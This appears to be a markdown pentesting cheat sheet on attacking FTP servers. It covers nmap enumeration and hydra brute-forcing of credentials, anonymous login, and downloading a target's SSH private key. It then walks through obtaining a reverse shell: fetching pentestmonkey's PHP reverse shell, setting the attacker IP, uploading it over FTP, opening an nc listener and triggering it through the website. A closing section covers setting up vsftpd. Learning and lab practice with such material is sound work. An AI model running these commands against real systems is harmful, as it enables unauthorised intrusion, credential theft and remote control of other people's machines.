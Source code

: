 ```yaml
---
title: FTP (File Transfer Protocol) Pentesting
description: FTP is a standard communication protocol used for the transfer of computer files from a server to a client on a computer network. Default ports are 20 (for data), 21 (for control).
tags:
    - Network
    - Reverse Shell
refs:
date: 2024-01-26
draft: false
---
```


## Enumeration

```sh
nmap --script ftp-anon -p 21 <target-ip>
nmap --script ftp-vuln* -p 21 <target-ip>
nmap --script ftp-* -p 21 <target-ip>
```

### Brute Force Credentials

```sh
hydra -l username -P passwords.txt <target-ip> ftp
hydra -L username.txt -p password <target-ip> ftp

hydra -l username -P passwords.txt ftp://<target-ip>
hydra -L usernames.txt -p password ftp://<target-ip>
```

<br />

## Investigation

### Banner Grabbing

```sh
nc <target-ip> 21
```

### Using OpenSSL

First off, open listener.

```sh
nc -vn <target-ip> 21
```

Then run the command below.

```sh
openssl s_client -connect <target-ip>:21 -starttls ftp
```

### Configuration Files

```sh
cat /etc/vsftpd.conf
cat /etc/vsftpd/vsftpd.conf
```

<br />

## Connect

### Using `ftp`

```sh
ftp <target-ip>
ftp <target-ip> <target-port>
```

Sometimes we might be able to the **anonymous** login.  
Not likely, but worth a try.

```sh
ftp <target-ip>
username: anonymous
password: anonymous
```

### Using `lftp`

`lftp` is the enhanced version of `ftp`. It's more easier to use than `ftp`.

```sh
lftp
lftp :-> connect
# or
lftp 10.0.0.1

# Login with username and password
lftp 10.0.0.1:-> login username password
```

<br />

## Commands in FTP

After connecting FTP, we can search directories and files, then download them to your local machine, and put local files to the target system.  
The FTP commands are almost the same as Linux commands.

```sh
ftp> pwd
ftp> cd
ftp> ls
# Print the content of the file
ftp> get example.txt -

# Switch to passive mode.
ftp> passive

# Print usage
ftp> ?
```

### Download Files

To download files to local machine,

```sh
ftp> get example.txt
ftp> get home/user/.ssh/id_rsa ./id_rsa

# recursive
wget -r --user='username' --password='password' ftp://<target-ip>/sample
```

### Upload Files

```sh
ftp> put example.txt
```

<br />

## Reverse Shell over Website

If the target website allows users to access the ftp directory, we can upload the exploit for the reverse shell and get a shell.  

1. **Download the Payload**

    Get the payload for the reverse shell from [this repository](https://github.com/pentestmonkey/php-reverse-shell).

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # --------------------------------------------------------------------------------

    # Edit some variables in shell.php
    $ip = '<your-local-ip>';
    $port = 1234;
    ```

2. **Upload the Payload to FTP Directory**

    Connect to FTP and upload the payload.

    ```sh
    ftp <target-ip>

    # Upload the payload you downloaded
    ftp> put shell.php
    ```

3. **Get a Shell**

    At first, w need to open listener in your local machine.

    ```sh
    nc -lvnp 1234
    ```

    In a web browser, access to "http://vulnerable.com/path/to/ftp/shell.php".  
    We should get a target shell.

<br />

## Start FTP Server

### 1. Install vsftpd

```bash
sudp apt install vsftpd
```

To check the config file for vsftpd, run the following command.

```bash
less /etc/vsftpd.conf
```

### 2. Start FTP Server

Below are commands for starting FTP server and checking the status.

```bash
sudo systemctl start vsftpd
sudo systemctl status vsftpd
```

If you’ve updated the config file, you need to restart vsftpd.

```bash
sudo systemctl restart vsftpd
```
